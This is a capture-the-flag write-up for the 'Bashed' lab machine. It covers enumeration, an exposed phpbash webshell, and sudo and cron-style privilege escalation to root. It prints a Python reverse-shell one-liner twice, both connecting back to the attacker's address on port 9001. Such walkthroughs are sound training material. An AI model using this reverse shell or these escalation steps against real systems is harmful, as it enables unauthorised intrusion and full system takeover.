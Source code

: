 
## [Home](../../index.md)      [Whoami](/assets/)       [Login](/assets)      [Sign up](/assets/)

![bashed](/assets/basheddefault.png)

## Enumeration

Starting off with an nmap scan: `nmap -sC -sV -O -oA nmap/bashed 10.10.10.68`

Ports open:        
1. 80 - http. 

We can see that only port 80 is open. So, we can try and run our basic tools such as dirb, nikto, etc. 
After doing some enumeration, we find out that there is a webshell running on: `http://10.10.10.68/phpbash.php`. 


![bashed homepage](/assets/bashedhomepage.png)



We can navigate through the files and directories of the webshell, but we cannot switch or privesc to another user, as it spawns a new shell every time we type a new command.   
We can then use netcat to get a rev shell back to our machine and then privesc from there. 
But ncat, nc, netcat doesn't seem to work, so we tried a python shell and it worked. 
Payload used:   
    
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash").  
  
## Exploitation
Setting up a netcat listener on our machine and then catching the shell:
![shell](/assets/shell.png)

## Privilege Escalation
After looking around the local filesystem we found out that there is a user called **scriptmanager**. 
After using `sudo -l` to list the sudo permissions which we can perform, this is what we get:  

![sudo priv](/assets/sudopriv.png)


As we can see that we can run any command as the scriptmanager user. 
Hence, we run the bash binary as the user scriptmanager to switch user to scriptmanager:  

    sudo -u scriptmanager /bin/bash.  

And we our now the user scriptmanager!   

Now we need to escalate our privileges to root. 
Again looking around in the local filesystem we find out that there is a /scripts directory in the root of the filesystem. 
We notice that there is a /scripts dir present on the machine which is odd.
-After going into that dir, we can see that there are 2 files:
---test.py. 
---test.txt. 

scriptmanager@bashed:/scripts$ cat test.py. 
cat test.py
f = open('test.txt', 'w')
f.write('testing123!')
f.close


We can then see that the test.txt file has the contents testing123!
So, now we know that the file is/can be written somehow from the py file which is present. 

So, we create a different file with the same code. 

scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open('yes.py', 'w')
f.write('lego')
f.close



-And now we can see that the file yes.py is owned by root.
-That means that whatever we execute from the yes.py file we can get root from it.


-So we can insert the same py rev shell payload which we used earlier:

scriptmanager@bashed:/scripts$ cat test.py.  
`cat test.py
f = open('yes.py', 'w')
f.write('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")')
f.close`  

Same reverse shell payload used as above. 

Now, we setup a netcat listener on our machine to catch the reverse shell:  
![root](/assets/shell2.png)

And now we are ROOT!!!!



